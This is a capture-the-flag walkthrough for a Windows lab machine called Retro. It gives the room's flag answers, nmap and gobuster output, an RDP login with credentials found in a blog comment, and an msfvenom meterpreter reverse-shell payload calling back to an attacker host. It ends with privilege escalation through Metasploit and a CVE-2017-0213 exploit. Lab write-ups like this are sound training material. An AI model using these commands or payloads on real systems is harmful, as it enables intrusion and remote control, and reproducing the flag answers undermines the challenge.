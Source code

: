 # Retro

```
Can you time travel? If not, you might want to think about the next best thing.

Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up.

-------------------------------------

There are two distinct paths that can be taken on Retro. One requires significantly less trial and error, however, both will work. Please check writeups if you are curious regarding the two paths. An alternative version of this room is available in it's remixed version Blaster.
```

## Task 1 Pwn

```
#1 A web server is running on the target. What is the hidden directory which the website lives on?

/retro
```
```
#2 user.txt (+) 50

3b99fbdc6d430bfb51c72c651a261927
```
```
#3 root.txt (+) 100

7958b569565d7bd88d10c6f22d1c4063
```

### Code

```
export ip=10.10.121.250
```
## nmap scan
Again the machine denies icmp PING, using -Pn ...
```
$ nmap -sC -sV -Pn -oN nmap.txt $ip

# Nmap 7.80 scan initiated Thu Jun 25 14:19:46 2020 as: nmap -sC -sV -Pn -oN nmap.txt 10.10.121.250
Nmap scan report for 10.10.121.250
Host is up (0.085s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2020-06-25T11:20:04+00:00
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2020-06-24T11:18:26
|_Not valid after:  2020-12-24T11:18:26
|_ssl-date: 2020-06-25T11:20:05+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 25 14:20:05 2020 -- 1 IP address (1 host up) scanned in 18.86 seconds

```
## gobuster
```
$ gobuster dir -u http://$ip -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.121.250
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/25 14:21:30 Starting gobuster
===============================================================
/retro (Status: 301)

```
Found a $ip/retro dir, website about retro games, on Task #2 I found that the author is Wade, and he left a comment @ $ip/retro/index.php/2019/12/09/ready-player-one/#comment-2, stating:
```
"
	Wade
	December 9, 2019

Leaving myself a note here just in case I forget how to spell it: parzival
"
```
so 'parzival' is a potential password and 'Wade' is a username ...
```
Windows creds = wade:parzival
```
There is rdp on the box so lets try login with the creds ... IT WORKED !

user.txt @ Desktop : 3b99fbdc6d430bfb51c72c651a261927

pic1.png
pic2.png - we can see that there is something in the recycle bin ...
pic3.png - we can see a hint CVE-2019-1388 @ the bookmarks in Google Chrome ...
A quick Google search leads us here

hhupd.exe @ Desktop : found this CVE-2019-1388 @ https://www.nagenrauft-consulting.com/2019/11/21/cve-2019-1388-hhupd-exe/

https://www.youtube.com/watch?v=3BQKpPNlTSo - video on the exploit from the site above ...

Lets try it !

Uh OH
pic4.png - a bummer there is an issue with the default browser entry... lets try to fix that

Meh, still nothing, I am going to try Metasploits exploit Suggester to see anything else...
Lets create a meterpreter shell exe and put it on the victim via simple.http server ...
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.9.9.96 LPORT=4447 -f exe > shell.exe
```
```
[*] Started reverse TCP handler on 10.9.9.96:4447 
[*] Sending stage (176195 bytes) to 10.10.121.250
[*] Meterpreter session 1 opened (10.9.9.96:4447 -> 10.10.121.250:50636) at 2020-06-25 14:59:35 +0300

meterpreter > getuid
Server username: RETROWEB\Wade
meterpreter > bg
$ use post/multi/recon/local_exploit_suggester;

msf5 post(multi/recon/local_exploit_suggester) > set SESSION 1
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.121.250 - Collecting local exploits for x86/windows...
[*] 10.10.121.250 - 32 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.121.250 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[*] Post module execution completed

```

lets use exploit/windows/local/ikeext_service

```
msf5 exploit(windows/local/ikeext_service) > show options 

Module options (exploit/windows/local/ikeext_service):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   DIR                       no        Specify a directory to plant the DLL.
   SESSION  1                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.9.9.96        yes       The listen address (an interface may be specified)
   LPORT     4447             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows x64


msf5 exploit(windows/local/ikeext_service) > run
[*] Started reverse TCP handler on 10.9.9.96:4447 
[*] Checking service exists...
[!] UAC is enabled, may get false negatives on writable folders.
[*] Checking %PATH% folders for write access...
[*] Sending stage (201283 bytes) to 10.10.121.250
[*] Path C:\Users\Administrator\AppData\Local\Microsoft\WindowsApps does not exist...
[*] Path  does not exist...
[*] Meterpreter session 2 opened (10.9.9.96:4447 -> 10.10.121.250:51135) at 2020-06-25 15:20:41 +0300 
[*] Attempting to create a non-existant PATH dir to use.
[-] Exploit aborted due to failure: not-vulnerable: Unable to write to any folders in the PATH, aborting...
[*] Exploit completed, but no session was created.

```

OK ... lets use a python script then - windows-privesc-check(https://github.com/pentestmonkey/windows-privesc-check)

BINGO! It seems vulnerable to CVE-2017-0213
(https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213)

lets run CVE-2017-0213_x64.exe, and here we go a system shell

```
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 7443-948C

 Directory of C:\Users\Administrator\Desktop

12/08/2019  09:06 PM    <DIR>          .
12/08/2019  09:06 PM    <DIR>          ..
12/08/2019  09:08 PM                32 root.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  30,333,550,592 bytes free

C:\Users\Administrator\Desktop>type root.txt.txt
7958b569565d7bd88d10c6f22d1c4063
```